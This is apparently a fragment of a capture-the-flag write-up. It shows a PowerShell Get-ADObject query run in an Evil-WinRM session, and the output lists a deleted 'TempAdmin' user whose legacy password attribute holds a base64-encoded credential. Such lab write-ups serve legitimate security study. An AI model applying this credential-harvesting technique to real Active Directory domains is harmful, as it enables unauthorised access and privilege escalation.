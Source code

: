 I executed this command and I got this →

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *

...
...
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
{: .nolineno}
